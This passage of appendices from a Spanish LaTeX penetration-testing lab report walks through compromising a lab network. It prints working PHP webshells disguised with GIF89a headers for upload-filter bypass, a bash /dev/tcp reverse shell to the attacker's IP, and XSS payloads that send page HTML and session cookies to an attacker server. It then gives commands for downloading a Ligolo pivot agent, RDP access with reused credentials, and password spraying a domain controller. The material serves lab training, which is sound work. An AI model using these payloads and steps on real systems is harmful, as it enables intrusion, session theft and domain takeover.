\end{configbox}

La dirección \texttt{<IP\_ATACANTE>} debe sustituirse por la IP real de la máquina Kali dentro del segmento de red correspondiente.

\subsubsection*{Preparación del listener}

Antes de ejecutar el payload, se prepara un listener en la máquina atacante:

\begin{bashbox}
nc -lvnp 4444
\end{bashbox}

\subsubsection*{Ejecución del archivo subido}

Tras subir correctamente el archivo, se invoca desde el navegador o mediante \texttt{curl}:

\begin{configbox}
http://<IP_SERVIDOR>:8080/uploads/shell.gif.php
\end{configbox}

Si el servidor interpreta el archivo como PHP, se ejecuta el código incluido en el payload y se establece una conexión inversa hacia la máquina atacante.

\subsubsection*{Resultado esperado}

El listener recibe una conexión entrante desde el servidor víctima y proporciona una shell con el usuario del servicio web:

\begin{configbox}
www-data@victima:/var/www/html/uploads$
\end{configbox}

La ejecución de comandos básicos permite confirmar el contexto de ejecución:

\begin{bashbox}
whoami
id
hostname
pwd
\end{bashbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/www-data.png}

    \vspace{0.2cm}
    \captionazul{Obtención de una shell inicial con el usuario del servicio web.}
    \label{fig:anexo_www_data_shell}
\end{figure}

\subsubsection*{Enumeración inicial del servidor}

Una vez obtenida la shell, se realiza una enumeración básica del sistema:

\begin{bashbox}
whoami
id
hostname
hostname -I
ip a
ls -la
ls -la /shared
\end{bashbox}

Durante esta fase se identifica que el servicio web se ejecuta en un entorno contenerizado y que existe un directorio compartido con credenciales reutilizables.

\subsubsection*{Acceso SSH con credenciales recuperadas}

En el directorio compartido se localiza un fichero con credenciales asociadas al usuario \texttt{dev}:

\begin{configbox}
Usuario: dev
Password: dev123
Servicio: SSH
\end{configbox}

Dado que el servidor expone SSH, se utiliza dicha cuenta para obtener una sesión más estable sobre el servidor Ubuntu:

\begin{bashbox}
ssh dev@<IP_SERVIDOR>
\end{bashbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/escalada-privilegio-web.png}

    \vspace{0.2cm}
    \captionazul{Acceso al servidor Ubuntu mediante credenciales recuperadas durante la post-explotación.}
    \label{fig:anexo_escalada_privilegio_web}
\end{figure}



% Anexo v - Payloads PHP y XSS
\cleartooddpage
\crearanexo{Payloads PHP y XSS utilizados}{anexo:payloads_php_xss}

% ---------------------------------------------------

\subsubsection*{Objetivo}

Este apartado recoge los payloads utilizados durante las pruebas de explotación web. Su finalidad es facilitar la reproducción del laboratorio y documentar de forma ordenada los ficheros y cadenas empleados durante la validación.

\subsubsection*{Payload PHP básico}

Payload mínimo para ejecutar comandos mediante el parámetro \texttt{cmd}:

\begin{configbox}
<?php
    system($_GET['cmd']);
?>
\end{configbox}

Ejemplo de uso:

\begin{configbox}
http://<IP_SERVIDOR>:8080/uploads/shell.php?cmd=whoami
\end{configbox}

En el laboratorio, la versión \texttt{.php} directa debe ser bloqueada por la aplicación si el filtro de subida actúa sobre extensiones PHP simples.

\subsubsection*{Webshell disfrazada con cabecera GIF}

Fichero recomendado:

\begin{configbox}
terminal_url.gif.php
\end{configbox}

Contenido:

\begin{configbox}
GIF89a
<?php
if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];

    echo "<h2>Comando ejecutado:</h2>";
    echo "<pre>" . htmlspecialchars($cmd) . "</pre>";

    echo "<h2>Resultado:</h2>";
    echo "<pre>";
    system($cmd . " 2>&1");
    echo "</pre>";
} else {
    echo "Uso: terminal.php?cmd=whoami";
}
?>
\end{configbox}

Ejemplos de uso:

\begin{configbox}
http://<IP_SERVIDOR>:8080/uploads/terminal_url.gif.php?cmd=whoami
http://<IP_SERVIDOR>:8080/uploads/terminal_url.gif.php?cmd=id
http://<IP_SERVIDOR>:8080/uploads/terminal_url.gif.php?cmd=pwd
http://<IP_SERVIDOR>:8080/uploads/terminal_url.gif.php?cmd=ip+a
\end{configbox}

\subsubsection*{Webshell con formulario}

Fichero recomendado:

\begin{configbox}
web_shell_bonita.gif.php
\end{configbox}

Contenido:

\begin{configbox}
GIF89a
<?php
echo "<form method='GET'>";
echo "<input type='text' name='cmd'>";
echo "<input type='submit'>";
echo "</form>";

if (isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
}
?>
\end{configbox}

Esta variante resulta útil para documentar la ejecución de comandos desde el navegador.

\subsubsection*{Payload de reverse shell}

Fichero recomendado:

\begin{configbox}
shell.gif.php
\end{configbox}

Contenido:

\begin{configbox}
GIF89a
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP_ATACANTE>/4444 0>&1'");
?>
\end{configbox}

Listener en Kali:

\begin{bashbox}
nc -lvnp 4444
\end{bashbox}

Ejecución:

\begin{configbox}
http://<IP_SERVIDOR>:8080/uploads/shell.gif.php
\end{configbox}

\subsubsection*{File browser básico}

Fichero recomendado:

\begin{configbox}
file_browser.gif.php
\end{configbox}

Contenido:

\begin{configbox}
GIF89a
<?php
$dir = $_GET['dir'] ?? '.';
$files = scandir($dir);

foreach ($files as $f) {
    echo "<a href='?dir=$f'>$f</a><br>";
}
?>
\end{configbox}

Ejemplos de uso:

\begin{configbox}
http://<IP_SERVIDOR>:8080/uploads/file_browser.gif.php
http://<IP_SERVIDOR>:8080/uploads/file_browser.gif.php?dir=/var/www/html
http://<IP_SERVIDOR>:8080/uploads/file_browser.gif.php?dir=/etc
\end{configbox}

\subsubsection*{Payloads XSS}

Payload básico de validación:

\begin{configbox}
<img src=x onerror=alert(1)>
\end{configbox}

Payload para enviar el contenido HTML de la página a un servidor controlado por el atacante:

\begin{configbox}
<img src=x onerror="fetch(`http://<IP_ATACANTE>:8000`,{method:`POST`,body:document.body.innerHTML})">
\end{configbox}

Payload para enviar cookies de sesión en caso de que sean accesibles desde JavaScript:

\begin{configbox}
<img src=x onerror="fetch(`http://<IP_ATACANTE>:8000`,{method:`POST`,body:document.cookie})">
\end{configbox}

Servidor HTTP temporal para recibir peticiones:

\begin{bashbox}
python3 -m http.server 8000
\end{bashbox}

\subsubsection*{Resumen de payloads}

\renewcommand{\arraystretch}{1.4}
\begin{table}[H]
    \centering
    \captionazul{Payloads utilizados durante la explotación web}

    \begin{tabular}{|C{4cm}|C{4cm}|C{5cm}|}
        \hline
        \rowcolor{blue!10}
        \textbf{Payload} & \textbf{Tipo} & \textbf{Uso principal} \\
        \hline
        \texttt{terminal\_url.gif.php} & GIF/PHP & Ejecución de comandos por URL \\
        \hline
        \texttt{web\_shell\_bonita.gif.php} & GIF/PHP & Ejecución de comandos desde formulario \\
        \hline
        \texttt{shell.gif.php} & GIF/PHP & Reverse shell hacia Kali \\
        \hline
        \texttt{file\_browser.gif.php} & GIF/PHP & Enumeración de directorios \\
        \hline
        \texttt{<img src=x onerror=...>} & XSS & Validación de ejecución JavaScript \\
        \hline
    \end{tabular}

    \label{tab:payloads_explotacion_web}
\end{table}
\renewcommand{\arraystretch}{1}

\subsubsection*{Mitigaciones recomendadas}

En un entorno real, este tipo de vulnerabilidades debería mitigarse aplicando controles como lista blanca estricta de extensiones, almacenamiento de archivos fuera del \textit{webroot}, deshabilitación de ejecución PHP en directorios de subida, renombrado de archivos, validación real del contenido y codificación de salida en todos los datos introducidos por el usuario.


% Anexo vi - Pivoting con Ligolo
\cleartooddpage
\crearanexo{Pivoting hacia la red interna mediante Ligolo-ng}{anexo:pivoting_ligolo}

% ---------------------------------------------------

\subsubsection*{Objetivo}

El objetivo de esta fase es utilizar el servidor Ubuntu comprometido como punto de pivote para acceder a la red interna \texttt{10.10.10.0/24}, inicialmente inaccesible desde la máquina atacante.

\subsubsection*{Identificación de la red interna}

Tras obtener acceso SSH al servidor Ubuntu con el usuario \texttt{dev}, se comprueban las interfaces de red disponibles:

\begin{bashbox}
whoami
hostname
hostname -I
ip a
\end{bashbox}

El resultado esperado muestra una dirección perteneciente a la red externa y otra correspondiente a la red interna del laboratorio:

\begin{configbox}
dev
servidor-victima
192.168.1.216 10.10.10.10 172.17.0.1 172.18.0.1
\end{configbox}

La presencia de la dirección \texttt{10.10.10.10} indica que el servidor comprometido tiene conectividad con una red interna adicional.

\subsubsection*{Arquitectura observada}

\begin{configbox}
Kali Linux
192.168.1.165
       |
       v
Servidor Ubuntu comprometido
192.168.1.216
10.10.10.10
       |
       v
Red interna
10.10.10.0/24
\end{configbox}

El atacante no puede alcanzar directamente la red interna desde Kali, por lo que se utiliza Ligolo-ng para crear un túnel transparente a través del servidor comprometido.

\subsubsection*{Inicio del proxy en Kali}

En la máquina atacante se descomprime Ligolo-ng y se inicia el proxy:

\begin{bashbox}
tar xvf ligolo-ng_proxy_0.8.3_linux_amd64.tar.gz
sudo ./proxy -selfcert
\end{bashbox}

El proxy queda escuchando por defecto en el puerto \texttt{11601}:

\begin{configbox}
INFO Listening on 0.0.0.0:11601
\end{configbox}

\subsubsection*{Transferencia del agente al servidor Ubuntu}

Desde Kali se puede levantar un servidor HTTP temporal:

\begin{bashbox}
python3 -m http.server 8000
\end{bashbox}

Desde el servidor Ubuntu comprometido se descarga el agente:

\begin{bashbox}
wget http://<IP_ATACANTE>:8000/agent
chmod +x agent
\end{bashbox}

\subsubsection*{Conexión del agente}

Desde el servidor comprometido se conecta el agente al proxy de Kali:

\begin{bashbox}
./agent -connect <IP_ATACANTE>:11601 -ignore-cert
\end{bashbox}

En la consola de Ligolo debe aparecer una nueva sesión:

\begin{configbox}
INFO Agent joined
\end{configbox}

\subsubsection*{Selección de sesión}

Dentro de la consola de Ligolo:

\begin{configbox}
session
\end{configbox}

Se selecciona la sesión correspondiente al servidor Ubuntu comprometido:

\begin{configbox}
session 1
\end{configbox}

\subsubsection*{Creación de la interfaz TUN}

En Kali se crea una interfaz virtual denominada \texttt{ligolo}:

\begin{bashbox}
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
ip a
\end{bashbox}

\subsubsection*{Configuración de rutas}

Se añade una ruta hacia la red interna del laboratorio:

\begin{bashbox}
sudo ip route add 10.10.10.0/24 dev ligolo
ip route
\end{bashbox}

El resultado debe incluir:

\begin{configbox}
10.10.10.0/24 dev ligolo
\end{configbox}

\subsubsection*{Inicio del túnel}

Dentro de la consola de Ligolo se inicia el túnel:

\begin{configbox}
start
\end{configbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/ligolo.png}

    \vspace{0.2cm}
    \captionazul{Túnel de pivoting establecido hacia la red interna mediante Ligolo-ng.}
    \label{fig:anexo_ligolo_pivoting}
\end{figure}

\subsubsection*{Descubrimiento de hosts internos}

Con el túnel activo, se realiza descubrimiento de hosts sobre la red interna:

\begin{bashbox}
sudo nmap -sn 10.10.10.0/24
\end{bashbox}

Resultado esperado:

\begin{configbox}
10.10.10.10   Servidor Ubuntu
10.10.10.20   DEV01
10.10.10.5    DC01
\end{configbox}



% Anexo vii - Movimiento lateral a DEV01
\cleartooddpage
\crearanexo{Movimiento lateral hacia DEV01}{anexo:movimiento_lateral_dev01}

% ---------------------------------------------------

\subsubsection*{Objetivo}

El objetivo de esta fase es identificar la estación de trabajo DEV01 dentro de la red interna y validar el acceso remoto mediante credenciales obtenidas durante fases anteriores.

\subsubsection*{Enumeración de servicios}

Una vez establecido el túnel mediante Ligolo-ng, se enumeran los servicios expuestos por DEV01:

\begin{bashbox}
sudo nmap -sV -Pn 10.10.10.20
\end{bashbox}

Resultado esperado:

\begin{configbox}
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
\end{configbox}

La presencia del puerto \texttt{3389/tcp} indica que el servicio de Escritorio Remoto se encuentra habilitado.

\subsubsection*{Identificación del sistema}

Para obtener información adicional del equipo se pueden utilizar herramientas de enumeración SMB:

\begin{bashbox}
enum4linux-ng 10.10.10.20
\end{bashbox}

O bien:

\begin{bashbox}
netexec smb 10.10.10.20
\end{bashbox}

El equipo se identifica como una estación Windows 7 integrada en el laboratorio:

\begin{configbox}
DEV01
Windows 7 Professional
\end{configbox}

\subsubsection*{Acceso mediante RDP}

Durante la post-explotación del servidor Ubuntu se recuperaron credenciales reutilizables:

\begin{configbox}
Usuario: dev
Contraseña: dev123
\end{configbox}

Con estas credenciales se valida el acceso remoto mediante FreeRDP:

\begin{bashbox}
xfreerdp /u:dev /p:dev123 /v:10.10.10.20 /sec:rdp
\end{bashbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{Imagenes/RDP.png}

    \vspace{0.2cm}
    \captionazul{Acceso remoto a la estación DEV01 mediante RDP utilizando credenciales obtenidas previamente.}
    \label{fig:anexo_rdp_dev01}
\end{figure}



% Anexo viii - Compromiso de DC01
\cleartooddpage
\crearanexo{Enumeración y compromiso del controlador de dominio DC01}{anexo:compromiso_dc01}

% ---------------------------------------------------

\subsubsection*{Objetivo}

El objetivo de esta fase es identificar el controlador de dominio de la red interna, enumerar los servicios de Active Directory y validar el acceso remoto administrativo mediante WinRM.

\subsubsection*{Reconocimiento de DC01}

Tras establecer el túnel hacia la red interna, se realiza un escaneo completo sobre el controlador de dominio:

\begin{bashbox}
sudo nmap -p- \
-sS \
--min-rate 5000 \
--open \
-vvv \
-n \
-Pn \
-T4 \
--max-retries 1 \
10.10.10.5 \
-oG allPorts
\end{bashbox}

Posteriormente se extraen los puertos detectados y se ejecuta un escaneo detallado:

\begin{bashbox}
nmap -sCV \
-p53,88,135,139,389,445,464,593,3268,5985,9389 \
10.10.10.5
\end{bashbox}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{Imagenes/scaneo-DC01.png}

    \vspace{0.2cm}
    \captionazul{Enumeración inicial del controlador de dominio DC01.}
    \label{fig:anexo_scaneo_dc01}
\end{figure}

El análisis permite identificar el sistema como un controlador de dominio Windows Server. Entre la información obtenida destacan:

\begin{configbox}
Nombre del equipo: DC01
Dominio: corp.local
FQDN: DC01.corp.local
\end{configbox}

Los servicios expuestos son característicos de Active Directory:

\renewcommand{\arraystretch}{1.4}
\begin{table}[H]
    \centering
    \captionazul{Servicios principales identificados en DC01}

    \begin{tabular}{|C{3cm}|C{7cm}|}
        \hline
        \rowcolor{blue!10}
        \textbf{Puerto} & \textbf{Servicio} \\
        \hline
        53 & DNS \\
        \hline
        88 & Kerberos \\
        \hline
        389 & LDAP \\
        \hline
        445 & SMB \\
        \hline
        3268 & Global Catalog \\
        \hline
        5985 & WinRM \\
        \hline
        9389 & Active Directory Web Services \\
        \hline
    \end{tabular}

    \label{tab:anexo_servicios_dc01}
\end{table}
\renewcommand{\arraystretch}{1}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{Imagenes/scaneo-DC01-detalle.png}

    \vspace{0.2cm}
    \captionazul{Detalle de servicios expuestos por DC01, incluyendo servicios propios de Active Directory.}
    \label{fig:anexo_scaneo_dc01_detalle}
\end{figure}

\subsubsection*{Preparación de diccionarios reducidos}

Con fines didácticos se utilizan diccionarios reducidos adaptados al laboratorio. Esto permite validar la técnica sin ejecutar ataques prolongados innecesarios.

Usuarios:

\begin{configbox}
dev
Administrador
Administrator
admin
system_admin
\end{configbox}

Contraseñas:

\begin{configbox}
Password123
dev123
Admin123
Admin123*
administrator
admin123
P@ssw0rd
P@ssw0rd123
\end{configbox}

\subsubsection*{Validación contra SMB}

Se prueban las combinaciones contra SMB:

\begin{bashbox}
netexec smb \
10.10.10.5 \
-d CORP \
-u users_lab.txt \
-p passwords_lab.txt
\end{bashbox}

El resultado esperado identifica credenciales válidas con privilegios elevados:

\begin{configbox}
CORP\Administrador:Admin123*
\end{configbox}

\begin{figure}[H]
    \centering
